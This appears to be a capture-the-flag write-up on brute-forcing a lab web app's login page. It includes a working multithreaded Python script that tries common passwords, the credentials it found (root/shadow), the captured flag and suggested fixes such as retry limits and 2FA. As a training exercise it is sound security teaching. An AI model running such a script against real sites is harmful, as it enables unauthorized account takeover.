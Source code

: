 # Brute force login

### Breach description

Brute forcing the login page with a script testing common passwords ends up working with a pair root/shadow

```python
import requests
import concurrent.futures

# URL of the login page
login_url = "http://192.168.64.6/?page=signin"

# Shared variable to indicate successful login
success = False

# Define a function to perform the login attempt
def brute_force_login(username, password):
    global success
    
    if success:
        return  # If success is already True, skip the login attempt
    
    # Create a session
    session = requests.Session()
    
    # Prepare the login data
    login_data = {
        "username": username,
        "password": password,
        "Login": "Login"
    }
    
    # Send the login request
    response = session.get(login_url, params=login_data)
    
    # Check if login was successful
    if "flag" in response.text:
        print(f"Login successful with credentials: {username}/{password}")
        success = True

# Define the path to the common passwords file
passwords_file = "common_passwords.txt"

# Read passwords from the file
with open(passwords_file, "r") as file:
    passwords = file.read().splitlines()

# Define a list of usernames to try
usernames = ["root", "admin", "user", "test"]

# Define the maximum number of concurrent requests
max_workers = 20

# Create a ThreadPoolExecutor
with concurrent.futures.ThreadPoolExecutor(max_workers=max_workers) as executor:
    # Submit login attempts
    futures = [executor.submit(brute_force_login, username, password) for username in usernames for password in passwords]
    
    # Wait for any login attempt to succeed
    concurrent.futures.wait(futures, return_when=concurrent.futures.FIRST_COMPLETED)
```

Common passwords [list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt) used.

**The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2**

### Explanation of the breach

Programmatically trying multiple combinations of a login/password pair. Can a computationnally consuming task. Hopefully most passwords are common ones. Using passwords lists can speed up the process.

### Breach Fix

Put a maximum retry number to 3 or 4 for a given login. Implement a 2FA mecanism.

On the user side, use a passwords manager and auto generate a different password for each website where you have credentials.
